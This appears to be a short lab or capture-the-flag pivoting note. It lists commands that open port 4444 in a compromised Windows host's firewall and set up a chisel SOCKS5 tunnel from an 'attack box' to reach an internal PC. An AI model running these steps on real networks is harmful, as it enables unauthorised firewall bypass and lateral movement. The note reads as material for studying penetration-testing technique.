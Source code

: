 We need to open up ports on the Windows firewall before we can use a chisel forward proxy

`netsh advfirewall firewall add rule name="keez" dir=in action=allow protocol=tcp localport=4444`

---

Next we will have to create a Chisel SOCKS proxy forward.

We will need to get chisel downloaded on the Windows box then we start the chisel listener

`.\chisel server -p 4444 --socks5`

---

Next we start the Chisel client on our attack box
`./chisel client 10.200.100.150:4444 9090:socks`

We now have a proxy to the personal PC @ 10.200.100.100 and can view the website running on this box by using Foxyproxy SOCKS5 port 9090